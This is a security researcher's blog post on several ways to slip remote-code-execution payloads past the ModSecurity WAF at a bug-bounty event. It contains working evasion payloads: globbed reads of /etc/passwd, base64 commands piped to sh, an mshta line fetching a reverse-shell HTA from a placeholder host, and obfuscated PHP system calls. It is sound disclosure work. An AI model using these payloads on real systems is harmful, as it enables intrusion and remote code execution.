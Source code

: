 ```yaml
---
layout: post
title:  "Bypassing ModSecurity for RCEs"
date:   2022-08-29 18:32:00 +0530
author: Somdev Sangwan
tags:   [event, security]
image: /imgs/thumbs/modsecurity-event.png
permalink: /blog/modsecurity-rce-bypass
description: "A tale of multiple RCE bypasses for ModSecurity WAF."  
---
```


> tl;dr: I bypassed [ModSecurity](https://github.com/SpiderLabs/ModSecurity) for multiple RCEs in a hacking event hosted by [intigriti](https://www.intigriti.com/).

## WAFs 101

Firewalls stop attacks. They can recognize them with their database of various rules that describe what an attack looks like. These rules are created by hand or automated analysis of thousands of actual attacks.
  
A web application firewall is a firewall, for websites.

### Blacklists are hard
`ping` is a tool commonly used to troubleshoot networks. As a WAF programmer, you might want to block attempts to run it. But what if user A sends a text message to user B through your WAF,
> your router looks fine, try to ping google.com

That's it. The WAF blocked the message, the user filed a complaint to the website owner. The owner debugged the issue and found out that the WAF was at fault.

As you can see, writing anti-attack rules for unknown contexts is tough. You need to prioritize false negatives over false positives over multiple levels of security while still protecting against the most common attacks.

With that being said, let me tell you a tale of why I am so cool and such a genius for trying random things until some of them worked.

## Filenames in Linux
> Note: When I say "linux", it means *nix (linux and unix). This applies to the entire article.

It is common knowledge that in linux, wildcards such as `*` and `?` are allowed in filenames. But did you know that character classes are also allowed? If your file is named `test.txt`, you can access it by typing `te[sn]t.txt`. The `[sn]` here is a *character class* which says that the character in this place can be an `s` or an `n` i.e. it will match both `test.txt` and `tent.txt`.

If you add an exclamation symbol (`!`) at the beginning of the character class (i.e. `[!sn]`) it will match everything other than the characters in it (i.e. `s` and `n`).

These character classes notations were not getting detected by ModSecurity, giving us two neat bypasses:

```
cat /etc/pass[w]d
cat /etc/pass[!x]d
```

## Everything is a file in Unix
> "Everything is a file" describes one of the defining features of Unix, and its derivatives—that a wide range of input/output resources such as documents, directories, hard-drives, modems, keyboards, printers and even some inter-process and network communications are simple streams of bytes exposed through the filesystem name space.
> - [WikiPedia](https://en.wikipedia.org/wiki/Everything_is_a_file)

Every command in linux is ultimately an executable binary file stored in `/usr/bin`. Thus instead of executing `ping`, you can write `/usr/bin/ping` and it will work.

Building on my previous exploit that could only interact with files, I turned that file-access technique into a juicy RCE with  

```
/usr/bin/who[a]mi
```

## Utilising the linux utilities
There are some amazing [core utilities](https://en.wikipedia.org/wiki/List_of_GNU_Core_Utilities_commands) that come pre-installed in linux.

I cross-checked them with ModSecurity's rules and found some commands that were missing from the blacklist. With a bit of reading here and there, the `base64` utility caught my eye. As the name suggests, it does [base64](https://en.wikipedia.org/wiki/Base64) encoding/decoding.

The idea was to encode the command as base64, decode it and pass the result to something that can "eval" it as a command.

There were some problems with this plan,
1. base64 utility needed [stdin](https://linuxhint.com/bash_stdin_stderr_stdout/) and the only plausible way to do that was with `echo` (e.g. `echo dW5hbWUgLWE= | base64 -d`). But `echo` was blacklisted, as it should be.
2. `sh` (shell) command can execute stdin as a command. Unfortunately, it was blacklisted too and there is no alternative to `sh`.

I solved the first problem by using `printf` instead of `echo`. It's an echo-like utility that supports string formatting.

The second one seemed like a dead end, the most common outcome in research. I did what researchers do, I decided to pursue other ideas as a break.
It helped, after some messing around I found that if a command isn't followed by any character, it doesn't get detected.

Combining these two bypasses, the final bypass becomes this:
```
printf dW5hbWUgLWE= | base64 -d | sh
```

Here, we base64 encoded a command, used the `base64` to decode it and then used `sh` to execute the decoded command.  
  
The neat thing about this bypass is that you smuggle literally anything and since it's base64 encoded, the WAF won't detect a thing.

## Windows is no different
Hacking is about trying things. Sometimes stupidly obvious, sometimes things you learned from a 4-page forum thread from 2006 and sometimes whatever keys you can press with your blurry sleepy eyes at 4 AM.

I tried the `?` filepath wildcard on Windows and it worked. ModSecurity didn't detect it since the wildcard detection rules were for `/paths/like/this` not `C:\paths\like\this`. Easy.

```
C:\Windows\System32\WindowsPowerShell\v1.0\power?hell.exe -File test.ps1
```

### Programming languages have versions now?
ModSecurity blocked `python xyz`, `python2 xyz` and `python3 xyz`. "Unfortunately", you can also invoke specific versions of the interpreter as `python3.10 xyz` for example. This variation wasn't blacklisted and hence I found a way to install arbitrary malware using python.

```
python3.10 -m pip install malware
```

## Entering through the Windows  
Windows is a gold mine for not-so-well-known features. Some found through a blog of a 16yo reverse engineer, some through Windows 95 guides and some by simply googling "windows malware delivery github".

I found a utility named [mshta](https://redcanary.com/threat-detection-report/techniques/mshta/) which is a windows component that deals with HTA ([HTML Application](https://en.wikipedia.org/wiki/HTML_Application)) files. These files can contain executable VBScript code and there's even a metasploit module to generate malicious HTA files.  
  
ModSecurity didn't detect it which gave me a payload that can download+execute arbitrary VBScript code.

```
mshta http://example.com/reverseShell.hta
```

## PHP Injection

You should check out [OWASP Core Rule Set](https://github.com/coreruleset/coreruleset), the collection of WAF rules used by ModSecurity. The comprehensibly documented rules through comments make it an excellent resource.

While trying to get my PHP function calls through the WAF, I went through the documentation of the [rule](https://github.com/coreruleset/coreruleset/blob/977ccdfb914e6d62b00ae26e2006b75b22e3df6c/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf#L418) that detects them. It was there where I learned that an attacker can obfuscate a function call as:

```
$x='sy'.'tem';
$x(ls);
```

Something clicked immediately, what if I could do this segmentation without a variable? One thing led to another and after a bit of testing, I came up with:

```
return"system"(ls).s;
```

Don't ask me to explain how this one works, I don't know much about PHP. I just tried things that made sense after looking at known bypasses and this one worked in a PHP webpage I created for testing.

### Credits
ModSecurity with the OWASP Core Rule Set on top is an open-source WAF and if you ask me, it's as good as WAFs get. It is almost impossible to bypass it for XSS, the rules are that good.

Shoutouts to them for maintaining such an important and free project responsibly and thanks to intigriti for hosting this hacking event and inviting me.

That's all folks.
